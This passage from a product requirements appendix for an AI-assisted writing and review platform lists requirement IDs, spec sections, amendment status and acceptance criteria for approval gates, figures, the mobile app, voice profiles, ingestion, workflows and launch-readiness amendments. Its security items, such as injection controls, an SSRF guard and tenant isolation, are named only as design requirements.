| REQ-GATE-1 | Gate kinds in the `gates` table; cards in run card, Inbox, mobile; `gate.opened` user-visible | 6.4 | amended (twelve kinds) | to write (O6) |
| REQ-GATE-2 | Card shows artifact, deadline (or waiting), do-nothing outcome, cost so far and remaining, actions; expiry per kind | 6.4 | amended (waiting kinds; informational scope card) | to write (O6) |
| REQ-GATE-3 | Approval policy is a project setting with three values plus per-run override; changing it does not alter an open card | 6.4 | kept | to write (O6) |
| REQ-GATE-4 | A parked run consumes no compute and holds the writer lock; home shows the reason and a Cancel release | 6.4 | kept | to write (O6) |
| REQ-GATE-5 | Cards render structured fields editable and prose read-only; plan/scope edits become Guidance; triage overrides write ledger rows with actor provenance | 6.4 | kept | to write (O6) |
| REQ-GATE-6 | At most one bounded re-plan after approval with changes; history shows "approved with N changes" | 6.4 | kept | to write (O6) |
| REQ-GATE-7 | Every card has Approve, Approve and run autonomously, Keep planning / Send back, Stop; mobile subset | 6.4 | kept | to write (O6) |
| REQ-GATE-8 | Notifications carry the do-nothing outcome and a deep link; reminder before expiry; expiry emits an event | 6.4 | kept | to write (O6) |
| REQ-GATE-9 | `Guidance` records for every source; skill input generated from them; `consumedBy` populated | 6.5 | kept | to write (O6) |
| REQ-GATE-10 | Standing guidance: create from any card/sheet; list, edit, retire in settings; shown on every sheet | 6.4 | kept | to write (O6) |
| REQ-GATE-11 | Guidance never edits `agents/**` directly; the note/letter confirms it was honored | 6.5 | kept | to write (O6) |
| REQ-GATE-12 | Pause resolves within 60 s at a safe point; resume re-enters from committed artifacts | 6.5 | amended (phase-boundary pause at MVP) | to write (O6) |
| REQ-GATE-13 | Stop keeps partial artifacts and cost; partial dossiers labeled and resumable | 6.5 | kept | to write (O6) |
| REQ-GATE-14 | Queued messages show their delivery point, editable until delivered, never into independence contexts | 6.5 | amended (1.x) | to write (O6) |
| REQ-GATE-15 | Comments batched and delivered at the stated boundary as one Guidance record; the Page stays read-only during writer runs | 6.5 | amended (1.x) | to write (O6) |
| REQ-GATE-16 | Delivery points shown before submitting; late comments re-routed with the drawer saying where | 6.5 | amended (1.x) | to write (O6) |
| REQ-VIZ-1 | Figures stored as spec + data + provenance + cached renders, versioned; renders regenerable | 7.5 | kept | to write (O6) |
| REQ-VIZ-2 | `alt` and `sourceLine` required to insert | 7.5 | kept | to write (O6) |
| REQ-VIZ-3 | All launch surfaces produce the same card; selection-launched figures carry selection provenance and anchor | 7.5 | kept | to write (O6) |
| REQ-VIZ-4 | `provenance.kind = 'none'` renders `[unverified data]` until provenance or a review verdict | 7.5 | kept | to write (O6) |
| REQ-VIZ-5 | Data table shown before rendering; cell corrections recorded as user_typed overrides | 7.5 | kept | to write (O6) |
| REQ-VIZ-6 | Vega-Lite schema-validated; Mermaid via beautiful-mermaid; ≤3 retries then error with spec visible | 7.5 | kept | to write (O6) |
| REQ-VIZ-7 | Card renders light and dark, type chips, editable caption/alt/source, Data/Spec/Versions disclosures | 7.5 | kept | to write (O6) |
| REQ-VIZ-8 | Persisted renders never in the browser; byte-identical SVG for IDE, review, export | 7.5 | kept | to write (O6) |
| REQ-VIZ-9 | Every iteration is a new version with its request; restore in one click; chip edits cost 0 | 7.5 | kept | to write (O6) |
| REQ-VIZ-10 | Figures enter drafts only as accept/reject proposals at a stated anchor; rejection keeps the asset | 7.5 | kept | to write (O6) |
| REQ-VIZ-11 | Figure numbers computed from document order; never hard-coded | 7.5 | kept | to write (O6) |
| REQ-VIZ-12 | Inserting into a frozen vN forks v(N+1) and marks the claims pending verification | 7.5 | kept | to write (O6) |
| REQ-VIZ-13 | Reviews inventory figure blocks as Tier-1 claims; verdicts propagate to the figure | 7.5 | kept | to write (O6) |
| REQ-VIZ-14 | The claims table groups figure claims under the figure's number; click scrolls to the figure | 7.5 | kept | to write (O6) |
| REQ-VIZ-15 | Export embeds SVG/PNG per format, alt text, source line as footnote or caption, spec+data+provenance in md/zip | 7.5 | kept | to write (O6) |
| REQ-VIZ-16 | Each figure version shows its credits; creation permitted on trial; export follows plan rules | 7.5 | kept | to write (O6) |

### A.6 REQ-MOBILE (design/7 — mobile companion)

| ID | One line | Spec § | Status | AC |
|---|---|---|---|---|
| REQ-MOBILE-1 | Scope rule: sub-paragraph inputs and reading only | 10.1 | kept | to write (O6) |
| REQ-MOBILE-2 | Expo/React Native, one codebase, iOS + Android | 10.2 | kept | to write (O6) |
| REQ-MOBILE-3 | Reader-only web layout with app banner at phone widths; no dead-end links | 5.1, 10.1, 10.2 | amended (phone-width web carries gate/disposition/chat inputs; banner only once the app exists) | to write (O6) |
| REQ-MOBILE-4 | Shared packages: contracts, api-client, tokens, findings-core, markdown-view; no React components or ProseMirror/Yjs in mobile | 10.2 | kept | to write (O6) |
| REQ-MOBILE-5 | Foreground polling every 4 s; push when backgrounded | 10.2 | kept | to write (O6) |
| REQ-MOBILE-6 | Block-patch edits via headless ProseMirror behind Hocuspocus; 409 on hash mismatch; refuses frozen heads | 10.2 | kept | to write (O6) |
| REQ-MOBILE-7 | `NotificationTransport` interface; Expo Push MVP; SNS swap; tokens in our Postgres | 10.2 | kept | to write (O6) |
| REQ-MOBILE-8 | Offline LRU cache (10 projects); queued dispositions; approvals and chat online-only; wipe on sign-out | 10.2 | kept | to write (O6) |
| REQ-MOBILE-9 | Notification classes N1–N8 with channel policy, deep links, per-class prefs, quiet hours excluding gates, collapse by run | 10.4 | kept | to write (O6) |
| REQ-MOBILE-10 | Lock-screen actions Open and Wait for me only; never Approve | 10.3 | kept | to write (O6) |
| REQ-MOBILE-11 | Finding sheet dispositions with adapt-in-place, required notes for rebut/defer, escalate, reversible until freeze | 10.3 | amended (note required for rebut/escalate only) | to write (O6) |
| REQ-MOBILE-12 | Approval screen: the named kinds + spend gates; estimate fields identical to web; approve/hold/stop; expired copy | 10.3 | amended (all twelve kinds on one screen) | to write (O6) |
| REQ-MOBILE-13 | Chat: shared thread, Summary-density tool lines, estimate chip before research beyond the daily allowance, no run-starting verbs in MVP | 10.3 | amended (estimate chip before any research burst; research disabled on Free) | to write (O6) |
| REQ-MOBILE-14 | Tokens from `packages/tokens`; 18-px serif with stepper and Dynamic Type; ≥45 ch; tick widths by severity; paper theme synced | 10.5 | kept | to write (O6) |
| REQ-MOBILE-15 | Google + Apple + magic-link sign-in; Keychain/Keystore sessions; device list with remote revoke | 10.5 | kept | to write (O6) |
| REQ-MOBILE-16 | Biometric step-up above the spend threshold; server step-up ≥200 credits | 10.3 | amended (threshold = the web consent threshold, default 500) | to write (O6) |
| REQ-MOBILE-17 | No IAP, prices, or purchase links; "manage on the web"; no third-party analytics SDKs | 10.5 | kept | to write (O6) |
| REQ-MOBILE-18 | EAS Build monthly, Update weekly; min-version enforcement with a forced-update screen keeping cached reading | 10.2, 10.5 | kept | to write (O6) |
| REQ-MOBILE-19 | Inbox read state and notification prefs server-side and shared with web | 5.11 | kept | to write (O6) |
| REQ-MOBILE-20 | Push payloads carry IDs and templated text only; private-notifications option hides titles | 10.4 | kept | to write (O6) |
| REQ-MOBILE-21 | Cancel run from timeline/run detail with the partial-results copy | 10.5 | kept | to write (O6) |
| REQ-MOBILE-22 | Usage glance: two levels, no tokens, no prices | 10.3 | kept | to write (O6) |

### A.7 REQ-PERSONA and REQ-INGEST (design/8 — voices and ingestion)

| ID | One line | Spec § | Status | AC |
|---|---|---|---|---|
| REQ-PERSONA-1 | Voices destination with three fixed groups; house styles read-only and forkable | 9.1 | kept | to write (O6) |
| REQ-PERSONA-2 | Creation requires only a name; a build requires description or samples | 9.2 | kept | to write (O6) |
| REQ-PERSONA-3 | Two build tiers with live estimates and the 1.5× cap; Full Profile needs ≥4 samples; estimate within 500 ms | 9.2 | kept | to write (O6) |
| REQ-PERSONA-4 | A blank description is agent-drafted and marked until the user edits it | 9.2 | kept | to write (O6) |
| REQ-PERSONA-5 | Free/trial accounts: one voice, Quick Voice only, Base model | 9.2 | amended (tier names) | to write (O6) |
| REQ-PERSONA-6 | Profile sections in the fixed order; corpus notes, provenance-as-file, hub-as-file, pre-calibration hold-outs, method not user-facing | 9.4 | kept | to write (O6) |
| REQ-PERSONA-7 | No derived section editable; only "Correct this in your description" | 9.4 | kept | §9.4 AC-P-C: derived kinds `editMode: none`; API write → 405 |
| REQ-PERSONA-8 | Voice measures hide the Method column and show per-piece ranges; rations and anti-signatures shown | 9.4 | kept | to write (O6) |
| REQ-PERSONA-9 | Calibration report layout; untested empty state with a priced action | 9.4 | kept | to write (O6) |
| REQ-PERSONA-10 | Overview contents including the decisions checklist | 9.4 | kept | to write (O6) |
| REQ-PERSONA-11 | Persona runs use the platform run model and card; per-voice spend total | 9.4 | kept | to write (O6) |
| REQ-PERSONA-12 | Approve sample shows counts, exclusions, hold-out count/dates, estimate/cap, three knobs; 24 h; never exceeds the consented cap | 6.4, 9.4 | kept | to write (O6) |
| REQ-PERSONA-13 | Staleness computed at read time from four stored facts; no stale flag persisted | 9.3 | kept | to write (O6) |
| REQ-PERSONA-14 | One pill, eight states with precedence, identical everywhere | 9.3 | kept | §9.3 AC-P-A: pill identical across state × surface |
| REQ-PERSONA-15 | The panel lists all four facts with deltas and offers the cheapest sufficient action first plus full rebuild | 9.3 | amended (one Update-voice verb; scopes internal) | to write (O6) |
| REQ-PERSONA-16 | Refresh close-reads only pieces without a persisted note; re-synthesize reads none; delta refresh < 30% of a full build | 9.3 | kept | to write (O6) |
| REQ-PERSONA-17 | A non-fresh voice never blocks a run; optional chained refresh; the artifact records the profile date | 9.3 | kept | to write (O6) |
| REQ-PERSONA-18 | Project chip compares snapshots; `newer-profile-available` offers Adopt | 9.3 | kept | to write (O6) |
| REQ-PERSONA-19 | House styles show the same pill, platform-maintained | 9.3 | kept | to write (O6) |
| REQ-PERSONA-20 | New projects default to No voice; picker lists groups with pills, allows never-built voices, offers Create inline | 9.6 | kept | to write (O6) |
| REQ-PERSONA-21 | Group-by-Voice with Unfiled first is the alternate grouping; attention is the default | 5.2 | amended (R2) | to write (O6) |
| REQ-PERSONA-22 | Voice freely changeable until v1; afterwards the affordance opens the fork/wrong-voice sheet; no silent rewrite | 9.6 | kept | to write (O6) |
| REQ-PERSONA-23 | Fork creates a new project at Outlined with a copied outline and the new voice; opens the Draft sheet | 9.6 | kept | to write (O6) |
| REQ-PERSONA-24 | Adopt updates the snapshot; charter re-seed opt-in with a diff; guidance lines never modified; logged | 9.6 | kept | to write (O6) |
| REQ-PERSONA-25 | Composites in the schema; imported ones read-only and pickable with a required Register; no compose action | 9.6 | kept | to write (O6) |
| REQ-PERSONA-26 | Register selector on run launch for multi-register voices; passed as the skills' `register` input | 9.6 | kept | to write (O6) |
| REQ-PERSONA-27 | AUP notice is one line at creation and on Mode change; Mode defaults to self and gates nothing | 9.2 | kept | to write (O6) |
| REQ-INGEST-1 | Connection → DiscoveredItem → Sample(version); uploads and pastes are connections without discovery | 9.5 | kept | to write (O6) |
| REQ-INGEST-2 | Provider set behind one `discover/fetch/changeKey` interface | 9.5 | amended (phasing: Substack/upload/URL MVP; others 1.x) | to write (O6) |
| REQ-INGEST-3 | Discovery never fetches bodies; user confirms inclusion first | 9.5 | kept | to write (O6) |
| REQ-INGEST-4 | Per-item include/omit; omitting retains bytes and removes from the corpus set | 9.5 | kept | to write (O6) |
| REQ-INGEST-5 | Paid/private items never fetched with credentials; export-zip path; no cookie input anywhere | 9.5 | kept | §9.5 AC-I-B: no cookie/session input anywhere (CI grep) |
| REQ-INGEST-6 | Re-sync diffs by external id; new/changed/removed rendered; change detection by body hash | 9.5 | kept | §9.5 AC-I-A: timestamp bump without body change → no new version |
| REQ-INGEST-7 | Quality verdicts with notes; non-clean opens the warning drawer | 9.5 | kept | to write (O6) |
| REQ-INGEST-8 | Accepted formats and caps; unreadable files listed, auto-omitted, counted against coverage | 9.5 | kept | to write (O6) |
| REQ-INGEST-9 | PDF conversion shows its credit estimate; visual tier opt-in with estimate and cap | 9.5 | kept | to write (O6) |
| REQ-INGEST-10 | Canonical Markdown with front-matter; read-only preview with version history | 9.5 | kept | to write (O6) |
| REQ-INGEST-11 | Sync errors show the provider's message plus a remedy; last good versions retained | 9.5 | kept | to write (O6) |
| REQ-INGEST-12 | SSRF guard, redirect/size limits, honest UA, ≤1 req/s per host, robots respected | 9.5 | kept | to write (O6) |
| REQ-INGEST-13 | Hold-out identity hidden until calibration, then badged and linked | 9.5 | kept | to write (O6) |
| REQ-INGEST-14 | Deleting a voice deletes samples, bytes, profile; forked house-style samples are references | 9.5 | kept | to write (O6) |

### A.8 REQ-PROD, REQ-WF, REQ-GENRE (design/9 — product scope, workflows, genres)

| ID | One line | Spec § | Status | AC |
|---|---|---|---|---|
| REQ-PROD-1 | Surfaces use Drafter / Editor / Assistant; "author" reserved for the human | 6.6 | kept | to write (O6) |
| REQ-PROD-2 | Every artifact carries a seat badge; the dossier header states the boundary as a verified trust chip | 5.7, 6.6 | kept | to write (O6) |
| REQ-PROD-3 | Workflow verbs are the only names users see; skill ids only in developer docs and telemetry | 6.2 | kept | to write (O6) |
| REQ-PROD-4 | Every Approval renders as a card with artifact, estimate delta, Approve / Approve and run autonomously / Edit guidance / Stop, countdown, Wait for me | 6.4 | kept | to write (O6) |
| REQ-PROD-5 | Rigor is a per-run setting with a per-project default; published ranges per notch; model names only in Advanced and the run report | 6.5, 7.1 | kept (composer shows the notch only) | to write (O6) |
| REQ-PROD-6 | Plan, model-tier, rigor, seat, and approval names are disjoint vocabularies (i18n lint) | 4.3 | kept (enforced by R6/R7) | §4.3 AC: i18n lint against Appendix D.2 |
| REQ-PROD-7 | The persona system is labeled Voice in all product surfaces | 4.1, 4.3 | kept | to write (O6) |
| REQ-PROD-8 | Version labels importable; rounds numbered independently | 5.3 | kept | to write (O6) |
| REQ-PROD-9 | Project state is a pure function powering pill, Suggested next, palette, mobile | 6.3 | kept | to write (O6) |
| REQ-PROD-10 | Suggested next is never the only affordance; palette lists every workflow with disabled reasons | 6.3 | kept | to write (O6) |
| REQ-PROD-11 | Human-changed claims auto-marked pending verification and listed in the next Review's scope card | 6.3 | kept | to write (O6) |
| REQ-PROD-12 | Run rounds produces a Convergence report and writes rounds to the timeline as if by hand | 6.8 | amended v0.3 (Convergence report reads obligation rows — REQ-OBJ-5) | to write (O6) |
| REQ-PROD-13 | The feature matrix is the phasing source of truth; rows become `EPIC-<n>` | 3.1 | kept | to write (O6) |
| REQ-PROD-14 | Reading-time and venue-cap meters in the status bar; over-cap shows Cut to length | 5.4 | kept | to write (O6) |
| REQ-PROD-15 | Every run event carries cost actual, estimate, rigor; analytics honor the opt-out | 3.5 | kept | to write (O6) |
| REQ-PROD-16 | Weekly metrics report from the event stream; grant and threshold tuned from telemetry | 3.5 | kept | to write (O6) |
| REQ-WF-1 | Every run kind declared in code; sheet and progress UI generated from it | 6.1 | kept | to write (O6) |
| REQ-WF-2 | Runs freeze their input version; drafts become new versions; suggestions become proposals | 6.1 | kept | to write (O6) |
| REQ-WF-3 | Every sheet shows estimate, cap, levers, balance after; consent thresholds | 6.1 | kept | to write (O6) |
| REQ-WF-4 | Draft never fans out writing; one streaming section with a budget bar | 6.2 | kept | to write (O6) |
| REQ-WF-5 | Re-plan loop capped at 2; the third failure escalates as an Approval | 6.2 | kept | to write (O6) |
| REQ-WF-6 | Review keyed by (version, run) | 6.2 | kept | to write (O6) |
| REQ-WF-7 | Re-review reads the response letter first; report states carried/closed/new | 6.2 | amended v0.3 (counts computed from obligation rows, reconciled with the sidecar; `obligations.json` letter-context mirror — REQ-OBJ-4) | fixture with a planted regression yields `reopened` + roundsOpen increment |
| REQ-WF-8 | Memo runs support user-supplied-source verdicts and never fetch internal data | 6.2 | kept | to write (O6) |
| REQ-WF-9 | Findings-UI dispositions seed the triage ledger; the run never overrides one without escalation | 6.2 | kept | to write (O6) |
| REQ-WF-10 | "Operator reachable" = the Approve-triage policy | 6.2, 6.4 | amended (default wait) | to write (O6) |
| REQ-WF-11 | Staleness from four inputs; Refresh costs only the delta | 6.2, 9.3 | kept | to write (O6) |
| REQ-WF-12 | Compose voice ships schema in MVP, UI 1.x | 6.2, 9.6 | kept | to write (O6) |
| REQ-WF-13 | Fact-check, Line edit, second read are phase-subset runs of Review; unchanged claims not re-verified | 6.2 | kept | to write (O6) |
| REQ-WF-14 | Figure data without provenance renders `[unverified data]`; reviews treat figure data as Tier-1 | 6.2, 7.5 | kept | to write (O6) |
| REQ-WF-15 | Run rounds bounded: ≤5 rounds, mandatory budget, auto on Studio+, stall detection | 6.2, 6.8 | amended v0.3 (stall detection reads obligation rows; works for hand-run rounds at MVP — REQ-OBJ-5) | two-round hand-run fixture with a persisting major escalates to the Decisions inbox |
| REQ-WF-16 | Steelman evidence-bound; research-off labeled | 6.2 | kept | to write (O6) |
| REQ-WF-17 | The run-kind registry accepts new kinds without schema change | 6.2 | kept | to write (O6) |
| REQ-GENRE-1 | Protocol is a versioned first-class entity; runs record `protocol@version` and venue; no phase bodies change per genre | 6.7 | kept | to write (O6) |
| REQ-GENRE-2 | Until custom protocols ship, users override only venue, length, phase defaults, stage | 6.7 | kept | to write (O6) |
| REQ-GENRE-3 | Four protocols seeded with venue tables carrying `verified_at`, re-verified before launch | 6.7 | kept | to write (O6) |
| REQ-GENRE-4 | Essay default for Unfiled; Academic when the voice's apparatus is full; otherwise ask once | 5.3, 6.7 | kept | to write (O6) |
| REQ-GENRE-5 | Academic disclosure statement generated at export; a service, never a gate | 6.7, 13.4 | kept | to write (O6) |
| REQ-GENRE-6 | Memo runs carry `user_sources[]`; only user-source verdicts for internal figures | 6.7 | kept | to write (O6) |
| REQ-GENRE-7 | Adding a protocol needs only a registry row, a rubric file, and at most one ledger column | 6.7 | kept | to write (O6) |

### A.9 REQ-SPEC (this synthesis; 6–28 added in v0.2)

| ID | One line | Spec § | Status | AC |
|---|---|---|---|---|
| REQ-SPEC-1 | Per-gate default deadlines and `onExpiry` per §6.4; overrides may lengthen, remove, or (wait-default kinds) add ≥ 2 h; exactly four non-human resolution mechanisms, each writing a `Decision{by}` row; spend gates never auto-proceed **(amended 2026-09-30 — gate labels render from the same defaults table; an informational gate never blocks; see the note after this table)** | 6.4 | rewritten v0.2 | to write (O6) |
| REQ-SPEC-2 | Canonical vocabularies (plans, model tiers, rigor, seats) used in every contract enum and UI string; enforced by the REQ-PROD-6 lint against Appendix D.2 | 4.3 | kept | §4.3 lint |
| REQ-SPEC-3 | One run state machine (§12.4) and one project state function (§6.3); no stored status column anywhere | 6.3, 12.4 | kept | to write (O6) |
| REQ-SPEC-4 | Severity vocabulary blocking / major / minor / note emitted explicitly in the structured findings block | 5.7 | amended (sidecar) | to write (O6) |
| REQ-SPEC-5 | Subsumed by REQ-ARCH-5 (amended): the upstream changes are the six inputs, `phase-result.json` and the sidecars | 12.2 | superseded | — |
| REQ-SPEC-6 | **Apply**: a free verb on suggestion-bearing findings that writes the replacement into the working head now and records `accept · applied` | 5.7 | new | to write (O6) |
| REQ-SPEC-7 | Findings at volume: triage mode, Margin clustering above ~30, rationale for rebut/escalate only, one-preview bulk, Drafter-proposes-first above 30, Quick findings cap 40 | 5.7 | new | to write (O6) |
| REQ-SPEC-8 | Trial is an entitlement (one Standard Review ≤6,000 words on Base) + a 150-credit pocket; the sheet shows *Included*; no cap arithmetic on an entitlement run **(amended 2026-09-30 — interim terms while measured COGS exceeds the §14.3 bound; see the note after this table)** | 14.3 | new | to write (O6) |
| REQ-SPEC-9 | Gate write-back: serializers (rows → ledger/plan/cut-list files) as the inverse of the parsers; overlays as user-authored artifact versions passed in `hydration.overlays[]`; re-materialize at resume | 11.5, 6.4 | new | Phase-0 exit: a gate edit round-trips into the next phase's file |
| REQ-SPEC-10 | Privilege separation in the run task: `harness` uid holds the token and proxy credential; `agent` uid runs the SDK with a scrubbed env; the trust chip derives from the hydration manifest, proxy log and launch records | 12.4, 12.6 | new | Phase-0 exit: attestation derived from server-side facts |
| REQ-SPEC-11 | The egress proxy is the meter of record and enforces the cap: per-run credential + orchestrator-issued allowlist; every response's `usage` metered; 402 at cap; SDK usage is a cross-check | 12.7, 13.3 | new | Phase-0 exit: proxy-metered = SDK-reported ± 2% |
| REQ-SPEC-12 | Structured-output contract: skills emit validated JSON sidecars alongside markdown; rows come from the sidecar; a parse/schema failure is `failed(validation)`, never a silent partial completion | 11.1 | new | Phase-0 exit: `parseStatus = ok` on all three real projects |
| REQ-SPEC-13 | Completion oracle: SDK result `success` + `phase-result.json {status:'done'}` + per-artifact predicates; back-edges declared and counted; judge phases reject `Agent` | 12.2 | new | to write (O6) |
| REQ-SPEC-14 | `ArtifactKind` is a closed 63-value enum (62 + the v0.3-final pre-registered `preference_profile`) equal to the §8.2 rows and the policy table's keys (contract test) | 8.2, 11.3 | new; amended v0.3 final | contract test |
| REQ-SPEC-15 | Research (`research_burst`) is an MVP Assistant-seat run: the plan card's and `/research`'s target; Map the field extends it in 1.x | 6.2, 7.1 | new | to write (O6) |
| REQ-SPEC-16 | Run creation: stateless cached `POST /estimates`; a `runs` row only on the sheet's Run click with a client-minted idempotency key; `awaiting_consent` only for sheet-less runs | 5.6, 12.4 | new | to write (O6) |
| REQ-SPEC-17 | Confirm scope is informational by default; blocks (2 h) at Full board, on protocol change, under *Wait for me at each*; waits when the re-priced estimate exceeds the cap | 6.4 | new (R15) | to write (O6) |
| REQ-SPEC-18 | Presence timer (10 min for a present user, never on wait-default gates); auto-proceed emails by default; every card pre-filled with the recommendation | 6.4, 5.11 | new | to write (O6) |
| REQ-SPEC-19 | MVP editor cut: schema-first profile, sidecar decorations, proposal card, autosave/restore, server-side compare, block-level provenance incl. the block-level Authorship overlay toggle (REQ-POS-8) and span-granularity capture (REQ-POS-9), Page read-only during runs; marks / working copy / Source / span *rendering* 1.x | 5.4, 5.8, 5.10 | new (R14); amended v0.3 final | to write (O6) |
| REQ-SPEC-20 | Phone-width web supports gate actions, dispositions and chat at MVP from the shared contracts; approval emails carry signed Wait-for-me / Open links; app banner only once the app exists | 10.1, 5.11 | new | to write (O6) |
| REQ-SPEC-21 | Five seats (`author`, `editor`, `assistant`, `persona_builder`, `system`); Steelman under Editor, Map the field under Drafter; "Researcher", "Second read" etc. are subagent labels | 6.6, 11.3 | new | to write (O6) |
| REQ-SPEC-22 | Manifest ↔ SKILL.md contract test; `protocols_version` pins skill sha + manifest + parsers/serializers; a run resumes only on its own version | 12.2 | new | CI contract test |
| REQ-SPEC-23 | Reserved (merged into REQ-RUN-15 amended: attempt fencing on every internal call) | 12.4 | — | — |
| REQ-SPEC-24 | Ledger integrity: balances table; row-locked holds; holds pin a bucket; re-validate and re-price at resume; 30-day parked cap; circuit breaker; refund-then-resume re-debits; chargeback handling | 14.4, 11.4 | new | nightly `balances = Σ ledger` assertion |
| REQ-SPEC-25 | Injection controls stated accurately: `fetcher` routing at Full board; model-independent verdict source checks (`suspicious_source`); query-length and domain caps at the proxy; `suspicious_query` n-gram pause; residual risk disclosed | 12.8 | new | to write (O6) |
| REQ-SPEC-26 | Reserved (merged into REQ-ARCH-4/23/24 and REQ-DATA-4 amended: fetcher/convert split, usercontent domain, RLS rules) | 13.3, 11.4 | — | — |
| REQ-SPEC-27 | One *Update voice* verb that picks the cheapest sufficient scope; scope names only in Advanced, telemetry and the Runs tab | 9.3 | new | to write (O6) |
| REQ-SPEC-28 | Reserved (merged into REQ-BILL-1/4 amended: dollars-first at the decision moment; 200-credit consent floor) | 14.1, 5.6 | — | — |
| REQ-SPEC-29 | **User-journey acceptance (added 2026-09-30).** Scripted browser journeys run against the deployed stage as the acceptance evidence of every Stage B that touches a user surface, and on a schedule against prod: (1) a new visitor — landing drop-zone → signup → the held draft becomes a project → estimate → the trial Review → the dossier → an edit → the purchase page; (2) a returning user — project list → dossier → Page edit → chat → export; (3) the phone-width reader. Assertions are on visible text and actionable (clickable, unobscured) controls, never on HTTP status alone; screenshots are committed as evidence. CI fails when a built client bundle has no served route, and a ticket's close records that the deployed provenance matches its chain-tip SHA | 13.5, 13.2 | new (2026-09-30; ADR-016) | journey suite green on the deployed stage |
| REQ-SPEC-30 | **Tenant isolation in depth (added 2026-09-30; strengthens REQ-DATA-4).** User-serving code (api, collab, worker handlers acting for a user) connects with a Postgres role that cannot bypass RLS, over the forced RLS every tenant table already carries (0004); only the documented **system pool** (`SYSTEM_DATABASE_URL`: sweeps, reconcilers, elevated mints) may use a bypass role — it never serves a user request (lint-enforced), and each of its queries carries an explicit workspace predicate or is an allowlisted intentional cross-tenant scan; the integration suite runs as the user-serving role; a two-tenant probe over every tenant-scoped read route runs on the deployed stage, and any ticket adding a tenant read extends it | 11.4, 13.3 | new (2026-09-30; ADR-017) | two-tenant probe returns zero foreign rows on every route |
| REQ-SPEC-31 | **Research integrity (added 2026-09-30; companion to REQ-VIS-9 and ADR-006).** (1) Before the first research-bearing phase of a Review or Fact-check, the harness preflights every model × server-tool pair the run will use (including research subagents) through the run's proxy; a failed preflight fails the run before any debit. (2) The run keeps a research floor — verification is never left without its search/fetch budget by earlier phases or subagents. (3) A Review whose verification ends with **zero coverage** — no checkable (Tier-1/Tier-2) claim with a successfully fetched source — while its inventory holds ≥ 1 checkable claim is delivered *Unverified*: labelled above the verdict on the run card, dossier and delivery email; its verification and discourse debits are refunded as a **platform-fault refund** (a refund class distinct from REQ-SPEC-24(6)'s failed-run refunds and never counted toward a user refund limit; a later re-verification is a new, normally-debited run); an ops alert fires; the run never counts as a success for SLOs, telemetry cohorts or any claim; a trial entitlement consumed by an *Unverified* Review is restored | 12.8, 8.4, 14.4 | new (2026-09-30; ADR-015) | zero-coverage fixture delivers *Unverified* + refund rows; preflight-fail fixture debits nothing |
| REQ-SPEC-32 | **Cost truthfulness (added 2026-09-30; restates §14.1/§14.4).** (a) A run's committed debits equal its proxy-metered burn at the published rate, clamped at the cap — the only absorbed burn is the above-cap overrun, platform-fault refunds (REQ-SPEC-31, pipeline defects) and the trial entitlement; (b) every price, cap, duration range, "what it covers" line and trial claim a user sees — protocol cards, Timeline, run sheet, palette, pricing page, landing — is computed by the one estimator / entitlement configuration calibrated on instrumented runs, and is contract-tested against it; no hand-written or modelled-only figure reaches a surface; (c) calibration targets: ≤ 10% of completed runs reach their cap, and the printed estimate range contains the actual for ≥ 80% of completed runs, per (workflow, rigor, tier) bucket over a trailing window | 14.1, 14.4, 14.2, 15.2 | new (2026-09-30; ADR-014) | contract tests over every price surface; calibration report |

**Amended 2026-09-30 — round 3 (launch readiness; ADR-013).** A browser-driven review of production
(`docs/build/reports/2026-09-30_prod-design-review.md`) found the new-user journey broken at load-bearing steps the
test suite could not see, a live cross-tenant read, a paid Review that performed no web research, and user-facing
prices modelled far below metered cost. Four requirements are **added** (rows above) and four **amended**; the
original texts are preserved.

- **REQ-SPEC-8 (interim trial terms; ADR-014).** "Your first review is included" stays, and the entitlement stays a
  **Standard** Review on **Base** (the §14.3 rigor: fact-check, discourse and the independent second read — Quick is
  not a first review "in full", §6.5). While the measured p90 list COGS of a Standard/Base 6,000-word Review exceeds
  $6, the entitlement's **word cap is derived from measured cost cards**: the largest cap whose p90 metered list COGS
  fits a provisional absorbed ceiling of $15 per entitlement (its cap), verified to produce zero cap deaths at that
  word cap; if that cap would fall below 1,500 words the operator sets the ceiling. A global daily trial-COGS kill
  switch (default $50/day, operator-tunable; REQ-GROWTH-15) bounds total exposure; Base-only, one concurrent run and
  the 150-credit pocket are unchanged; an entitlement consumed by an *Unverified* Review is restored (REQ-SPEC-31).
  The terms live in configuration and every surface that states them renders from it (REQ-SPEC-32(b)); the §14.3
  terms (≤ 6,000 words) return by configuration when the condition is met.
- **REQ-IDE-13 (tier choice; ADR-014).** The run sheet also shows the run's **model tier** and lets the user change
  it within plan rules (Free/trial: Base only). Defaults resolve project → account → plan; the chosen tier is frozen
  on the run (REQ-BILL-6). The Change disclosure never advises a tier the user cannot select.
- **REQ-SPEC-1 (gate labels are data).** A gate's user-facing label ("informational — the run continues", "waits
  for you", "N h then …") renders from the same defaults-as-data table (§6.4, R3/R15) that resolves the gate. A gate
  labelled informational never blocks the run.
- **REQ-GROWTH-1 (measurable onboarding).** "Ingested into a new project within 20 s" becomes the §13.5 SLO signal
  `import_preview_p95_s` ≤ 20 for md/txt/html/docx. A held draft persists on the device until it is consumed into a
  project or the user discards it — including across page loads after sign-in.
- **REQ-VIS-9 (reconciled).** The row's "fails delivery validation" is read through ADR-006 (Path B, 2026-09-11):
  the unfetched citation is stripped and its claim downgraded; delivery fails only on the other validations. A Review
  with zero verification coverage delivers *Unverified* (REQ-SPEC-31). *Unverified* is reserved in Appendix D.2.
- **§14.1 / §14.4 restated (REQ-SPEC-32(a)).** Committed debits equal proxy-metered burn at the published rate,
  clamped at the cap; the D-PRB.16-5 practice of leaving uncommitted burn undebited is superseded (ADR-014).
- **§12.8 / §8.4 (REQ-SPEC-31).** Path B (ADR-006) stands for partial citation gaps; a Review with zero successful
  fetches delivers *Unverified* with its research phases refunded (ADR-015).
- **§13.5 (REQ-SPEC-29).** Browser-journey acceptance joins the evals-in-CI discipline (ADR-016). **§11.4 / §13.3
  (REQ-SPEC-30).** The user-serving role cannot bypass RLS; the system pool alone may, never for a user request and
  with explicit workspace predicates (ADR-017).

Recorded in `docs/tickets/00_MANIFEST.md` § Spec amendments applied; chain rows 59–93 with 85a/88a (round 3).

### A.10 REQ-OBJ (design/15 — object model, round 2; added v0.3)

| ID | One line | Spec § | Status | AC |
|---|---|---|---|---|
| REQ-OBJ-1 | `revision_obligations` / `obligation_findings` / `obligation_transitions`; transitions append-only; row state maintained by trigger from the last transition | 11.3, 11.4, 11.7 | new | trigger test: direct `update … set state` without a transition row raises |
